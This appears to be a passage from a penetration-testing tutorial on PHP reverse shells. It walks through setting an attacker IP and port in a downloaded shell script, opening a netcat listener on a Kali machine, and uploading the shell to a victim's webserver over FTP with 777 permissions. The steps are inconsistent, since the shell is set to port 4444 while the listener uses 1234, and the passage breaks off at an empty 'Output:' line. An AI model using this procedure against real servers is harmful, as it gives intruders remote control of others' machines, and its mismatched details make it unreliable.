

4.1 PHP Reverse Shell
You need a “php reverse shell” in order to have upload access to a webserver that’s running PHP.
You can download one from here.
1. Download the file.
2. Extract the files and make a copy of the file “php-reverse-shell.php” to a file named “shell.php”.
$ cp php-reverse-shell.php shell.php3. Edit the “shell.php” file and change these two lines.
$ip = '127.0.0.1'; // CHANGE THIS T
$port = 1234; // CHANGE THIS
to
$ip = '192.168.12.60'; // CHANGE THIS KALI LINUX IP
$port = 4444; // CHANGE THIS
4. Save the file.
5. Open a “netcat" connection on your Kali Machine.
$ nc -lnvp 1234
6. Upload the “shell.php” file to the victim's machine and change the permissions.
ftp> put shell.php
ftp> chmod 777 shell.php
Output:
